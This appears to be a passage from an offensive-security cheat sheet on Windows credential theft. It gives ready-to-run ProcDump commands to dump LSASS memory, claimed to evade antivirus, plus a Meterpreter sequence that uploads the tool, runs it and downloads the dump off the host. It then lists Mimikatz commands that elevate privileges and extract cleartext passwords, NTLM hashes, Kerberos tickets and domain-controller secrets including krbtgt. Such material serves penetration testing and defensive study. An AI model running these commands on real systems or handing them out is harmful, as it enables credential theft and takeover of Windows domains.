 ###### Sysinternals' ProcDump

`ProcDump` is a command-line utility tool signed by Microsoft and part of the
`sysinternals` tools suite.

It can be used to dump the `LSASS` process with out raising antivirus alerts on
all Windows operating systems.

```
procdump.exe -accepteula -ma lsass.exe <PATH_LSASS_FILE>
rm <PATH_LSASS_FILE>

# Trough a meterpreter session
upload <PATH/procdump.exe> C:
execute -f "C:\procdump.exe" -a '-accepteula -ma lsass.exe <PATH_LSASS_DUMP>'
download <PATH_LSASS_DUMP>
rm <PATH_LSASS_DUMP>
```

###### Mimikatz

`Mimikatz` can be used to extract the credentials (cleartext passwords, `LM` /
`NTLM` hashes, `Kerberos` tickets from, etc.) from `LSASS`.

The commands below may be used as a one-liner in the form of
`mimikatz.exe "<COMMAND1>" "<COMMAND2>" "exit"`.

`mimikatz` can be instructed to load the specified `LSASS` dump file and to
execute the specified commands to extract credentials from the loaded `LSASS`
dump in place of the current host `LSASS` process:

```
mimikatz # sekurlsa::minidump <LSASS_FILE>
```

```
# Logs further mimikatz output to the specified file.
mimikatz # log <LOG_FILE>

# If necessary, elevates privileges to "NT AUTHORITY\SYSTEM".
mimikatz # token::elevate

# If necessary, acquires and enables the "SeDebugPrivilege" privilege.
mimikatz # privilege::debug

# Retrieves credentials (cleartext passwords and NTLM hashes) from the msv, tspkg, wdigest, kerberos, ssp and credman providers.
mimikatz # sekurlsa::logonpasswords

# Retrieves the Kerberos tickets, both TGTs and service tickets, from all active sessions.
mimikatz # sekurlsa::tickets

# Dumps credentials on Domain Controllers.
mimikatz # lsadump::lsa /inject
mimikatz # lsadump::lsa /inject /user:<krbtgt | USERNAME>
```
